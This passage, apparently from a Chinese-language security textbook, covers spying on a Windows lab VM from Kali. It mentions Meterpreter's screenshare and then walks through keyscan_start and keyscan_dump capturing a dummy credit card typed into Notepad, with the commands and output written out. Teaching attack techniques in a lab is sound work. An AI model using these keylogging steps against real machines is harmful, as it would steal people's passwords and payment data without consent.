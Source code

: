 ![f06008](img/f06008.png)

图 6-8：`screenshare` 命令让 Kali 上的攻击者能够通过互联网监视你的 Windows 桌面。

### 记录按键

一旦控制了计算机，攻击者就可以记录用户的每一个按键。这使得攻击者能够获得用户输入的记录，包括搜索、命令、密码等。让我们看看它是如何工作的。

1.  在 Meterpreter shell 中输入 `keyscan_start` 命令，以开始记录目标计算机的按键：

    ```
    meterpreter > `keyscan_start`
    Starting the keystroke sniffer ...
    ```

1.  切换回 Windows 虚拟机，在搜索栏中输入 **notepad** 并打开记事本应用。

1.  将此信息输入记事本：

    ```
    `My credit card number is not 1111 1111 1111 1111``with an expiration of 11/2028``and a cvv of 111`
    ```

    当然，你永远不应将敏感信息以明文形式存储在计算机上，但世界上许多人确实这样做。

1.  切换回 Kali 虚拟机并输入 `keyscan_dump` 查看记录的按键：

    ```
    meterpreter > `keyscan_dump`
    Dumping captured keystrokes...
    notepad<CR>
    <Shift>My credit card number is not 1111 1111 1111 1111<CR>
    with an expiration of 11/2028<CR>
    and a cvv of 111<CR>
    ```
